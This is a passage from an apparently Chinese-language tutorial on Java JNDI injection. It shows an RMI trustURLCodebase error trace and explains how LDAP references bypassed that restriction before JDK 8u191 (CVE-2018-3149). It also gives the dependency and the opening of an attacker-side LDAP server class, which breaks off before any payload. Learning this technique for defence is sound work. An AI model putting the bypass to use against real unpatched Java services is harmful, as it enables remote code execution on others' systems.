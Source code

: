 ```java
if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
    throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
}
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at demo.JNDI_Test.main(JNDI_Test.java:7)
```

## LDAP+JNDI

LDAP，全称Lightweight Directory Access Protocol，即**轻量级目录访问协议**，和Windows域中的LDAP概念差不多，这里就不进行过多展开了。

### JDK < 8u191

我们在上面讲了在JDK 6u132, JDK 7u122, JDK 8u113中Java限制了通过RMI远程加载Reference工厂类，com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为了false，即默认不允许通过RMI从远程的Codebase加载Reference工厂类。

但是需要注意的是JNDI不仅可以从通过RMI加载远程的Reference工厂类，也可以通过LDAP协议加载远程的Reference工厂类，这就可以加以利用，来绕过限制.

但可惜的是在之后的版本Java也对LDAP Reference远程加载Factory类进行了限制，在JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase属性的值默认值也变为false，对应的CVE编号为：**CVE-2018-3149**

服务端maven需要添加如下依赖：

```java
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.0</version>
</dependency>
```

**服务端ldap_server.java**

```java
package JNDI;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class ldap_sever {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
```